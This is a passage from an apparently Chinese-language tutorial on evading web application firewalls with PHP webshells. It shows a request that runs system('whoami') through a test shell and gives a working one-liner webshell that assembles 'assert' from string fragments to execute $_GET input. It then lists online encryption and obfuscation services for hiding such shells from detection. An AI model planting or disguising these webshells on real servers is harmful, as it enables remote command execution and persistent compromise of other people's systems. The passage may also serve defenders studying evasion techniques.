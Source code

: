 ```http
http://127.0.0.1:8081/security/bypass/test35.php?1=system(%27whoami%27)
```

### 总结

webshell 的免杀**前提是要分析出 waf 大概的规则**，如果盲目尝试是无法有更快的提示，正所谓大道至简，本文以最简单的代码解释了免杀的方法，原理以及waf背后的逻辑，对于更高级的waf，本文列举了很多种方法，在必要的时候是需要将多种方法合并使用的，以达到最好效果，最后有的绕过方式实在是太老了就没必要讲，如无特征马说是无特征，但这所谓的无特征就是它的最大特征，物联网是人类创造的，所有的东西都满足人类逻辑，**不要死记硬背那些复杂的免杀马，只有清楚背后的逻辑才能真正的有所提升。**

## 无扩展免杀

### 1.php加密

这里是利用 phpjiami 网站进行加密，进而达到加密效果

```http
https://www.phpjiami.com/
```

加密前：

```php
<?php
session_start();
$a = "a";
$s = "s";
$c=$a.$s."sert";
$c($_GET["1"]);
?>
```

加密後成功运行：

```http
http://127.0.0.1:8081/security/bypass/test36.php?1=phpinfo()
```

### 2.dezend加密

```http
http://dezend.qiling.org/encrypt.html
```

### 3.z5encrypt

```http
https://z5encrypt.com/encrypt/build
```

### 4.php-obfuscator

工具下载

```http
https://github.com/naneau/php-obfuscator
```
